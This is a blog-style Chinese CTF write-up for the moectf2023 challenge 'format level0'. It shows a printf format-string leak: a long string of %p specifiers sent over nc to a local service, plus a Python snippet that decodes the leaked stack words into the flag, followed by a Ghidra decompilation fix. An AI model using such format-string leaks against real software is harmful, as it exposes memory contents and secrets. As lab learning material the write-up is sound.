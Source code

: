 ```yaml
---
title: format level0
date: 2023/9/24 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`format_level0`, 保护全开
ghidra分析为32位程序

## 解题思路

> Ghidra这次解析失误了，完全不可读...  
> 用的Decompiler Explorer，BinaryNinja给出的正确代码
>
> ![GhidraFailure](/assets/moectf2023/GhidraFail.png)

反编译后，flag已被读取到栈上，并且存在printf漏洞，gdb调试可知该flag位于第7个参数  
笨办法强攻：使用大量%p泄露栈上信息，找到flag后解析(直接%7$s会SIGSEGV)

## EXPLOIT

nc localhost 34109  
*%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p*

从第7个16进制数开始复制flag直到0xa的内容

```python
txt = "<C-S-v>" # 粘贴内容
slices = txt.split('0x')[1:]
flag = ''

for s in slices:
    for i in range(6, -1, -2):
        flag += chr(int(s[i:i+2], 16))

print(flag)
```

> 奇怪的是，别的flag都是moectf开头，这个是JBtf开头，不知道出题者何意

Done.

## HOTFIX

已在github发issue得到回复：只需要将`.plt`, `.plt.sec`和`.plt.got`全部设置好ebx的值即可，
在`.plt`中已给出ebx值，只要在其他段全选后右键设置寄存器的值与`.got`的首地址相同即可

[REF](https://github.com/NationalSecurityAgency/ghidra/issues/5825)
